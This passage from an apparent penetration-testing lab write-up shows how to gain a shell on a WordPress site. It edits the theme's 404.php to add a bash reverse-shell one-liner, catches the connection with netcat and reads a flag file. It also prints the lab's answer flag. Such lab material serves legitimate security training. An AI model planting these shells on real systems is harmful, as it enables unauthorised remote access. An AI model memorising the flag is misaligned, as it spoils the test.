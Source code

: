 Students then need to select the theme "Twenty Nineteen":

![[HTB Solutions/CPTS/z. images/91e9f478e6b045dec5cb8713093f6d2b_MD5.jpg]]

Then, students need to select the 404.php template and add a PHP reverse shell one-liner:

Code: shell

```shell
exec("/bin/bash -c 'bash -i >& /dev/tcp/PWNIP/PWNPO 0>&1'");
```

![[HTB Solutions/CPTS/z. images/4d3462181f4b898919b6483b98fe9d6e_MD5.jpg]]

After updating the file, students need to listen on `PWNPO` using `nc`:

Code: shell

```shell
nc -nvlp PWNPO
```

```
┌─[us-academy-1]─[10.10.15.8]─[htb-ac413848@pwnbox-base]─[~]
└──╼ [★]$ nc -nvlp 9001

Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::9001
Ncat: Listening on 0.0.0.0:9001
```

Students then need to navigate to the `404.php` web page, which is at `http://blog.inlanefreight.local/wp-content/themes/twentynineteen/404.php`, to send the callback and catch the reverse shell:

```
Ncat: Connection from 10.129.99.98.
Ncat: Connection from 10.129.99.98:36524.
bash: cannot set terminal process group (1047): Inappropriate ioctl for device
bash: no job control in this shell
<anefreight.local/wp-content/themes/twentynineteen$
```

Once the reverse shell is attained, students can print out the flag file "flag.txt" which is under the `/var/www/blog.inlanefreight.local/` directory:

Code: shell

```shell
cat /var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt
```

```
<anefreight.local/wp-content/themes/twentynineteen$ cat /var/www/blog.inlanefreight.local/flag_d8e8fca2dc0f896fd7cb4cb0031ba249.txt

l00k_ma_unAuth_rc3!
```

Answer: `l00k_ma_unAuth_rc3!`
